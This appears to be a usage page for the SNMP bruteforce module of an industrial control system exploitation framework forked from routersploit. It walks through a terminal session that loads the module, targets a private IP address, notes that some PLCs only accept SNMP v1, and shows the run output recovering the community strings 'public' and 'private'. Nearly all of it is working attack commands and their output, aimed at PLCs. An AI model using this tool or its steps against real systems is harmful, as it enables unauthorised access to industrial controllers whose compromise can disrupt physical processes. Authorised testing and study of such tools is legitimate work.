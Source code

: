 # SNMP Bruteforece

# Use SNMP bruteforece module
    root@kali:~/Desktop/temp/isf# python isf.py
    
      _____ _____  _____ _____ _____  _      ____ _____ _______
     |_   _/ ____|/ ____/ ____|  __ \| |    / __ \_   _|__   __|
       | || |    | (___| (___ | |__) | |   | |  | || |    | |
       | || |     \___ \\___ \|  ___/| |   | |  | || |    | |
      _| || |____ ____) |___) | |    | |___| |__| || |_   | |
     |_____\_____|_____/_____/|_|    |______\____/_____|  |_|
    
    
                    ICS Exploitation Framework
    
    Note     : ICSSPOLIT is fork from routersploit at
    Version  : 1.0
    
    Exploits: 2 Scanners: 0 Creds: 13
    
    ICS Exploits:
        PLC: 2          ICS Switch: 0
        Software: 0
    
    isf > search snmp
    creds/snmp_bruteforce
    isf > use creds/snmp_bruteforce
    isf (SNMP Bruteforce) >

    
# set options
    isf (SNMP Bruteforce) > show options

    Target options:
    
       Name       Current settings     Description
       ----       ----------------     -----------
       target                          Target IP address or file with target:port (file://)
       port       161                  Target port
    
    
    Module options:
    
       Name                Current settings                                               Description
       ----                ----------------                                               -----------
       version             2                                                              Snmp version 1:v1, 2:v2c
       threads             8                                                              Number of threads
       stop_on_success     yes                                                            Stop on first valid community string
       verbosity           yes                                                            Display authentication attempts
       snmp                file:///root/Desktop/temp/isf/icssploit/wordlists/snmp.txt     Community string or file with community strings (file://)
    
    isf (SNMP Bruteforce) > set target 192.168.70.210
    [+] {'target': '192.168.70.210'}
    # Some PLC only support snmp version 1
    isf (SNMP Bruteforce) > set version 1
    [+] {'version': '1'}

# run module
    isf (SNMP Bruteforce) > run
    [*] Running module...
    [*] worker-0 thread is starting...
    [*] worker-1 thread is starting...
    [*] worker-2 thread is starting...
    [*] worker-3 thread is starting...
    [*] worker-4 thread is starting...
    [*] worker-5 thread is starting...
    [*] worker-6 thread is starting...
    [*] worker-7 thread is starting...
    [+] Target: 192.168.70.210:161 worker-0: Valid community string found - String: 'public'
    [*] worker-0 thread is terminated.
    [*] worker-4 thread is terminated.
    [+] Target: 192.168.70.210:161 worker-1: Valid community string found - String: 'private'
    [*] worker-1 thread is terminated.
    [*] worker-6 thread is terminated.
    [*] worker-5 thread is terminated.
    [*] worker-7 thread is terminated.
    [-] Target: 192.168.70.210:161 worker-2: Invalid community string - String: 'wheel'
    [*] worker-2 thread is terminated.
    [-] Target: 192.168.70.210:161 worker-3: Invalid community string - String: '0'
    [*] worker-3 thread is terminated.
    [*] Elapsed time:  6.13672208786 seconds
    [+] Credentials found!
    
       Target             Port     Community Strings
       ------             ----     -----------------
       192.168.70.210     161      public
       192.168.70.210     161      private
    
    isf (SNMP Bruteforce) >